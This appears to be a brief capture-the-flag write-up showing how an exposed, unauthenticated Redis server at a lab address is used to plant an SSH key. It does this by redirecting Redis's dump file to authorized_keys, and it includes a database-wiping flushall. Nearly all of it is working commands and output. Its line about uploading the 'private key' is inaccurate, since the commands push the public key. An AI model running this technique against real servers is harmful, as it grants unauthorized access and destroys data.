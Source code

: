 # Redis

## Exploit

https://github.com/psmiraglia/ctf/blob/master/kevgir/000-redis.md

I create an `SSH key` with `ssh-keygen`.

```bash
$ echo -e '\n\n' >> spaced_keys.txt
$ cat postman_keys.pub >> spaced_keys.txt
$ echo -e '\n\n' >> spaced_keys.txt
```

```bash
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/home/user/.ssh"
10.10.10.160:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "dump.rdb"
```

```bash
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/home/user/.ssh"
10.10.10.160:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
10.10.10.160:6379> flushall
```

I upload the private key on the redis in the `authorized_keys` file.

```bash
$ cat spaced_keys.txt | redis-cli -h 10.10.10.160 -x set sshblob
OK
$ redis-cli -h 10.10.10.160 save
OK
```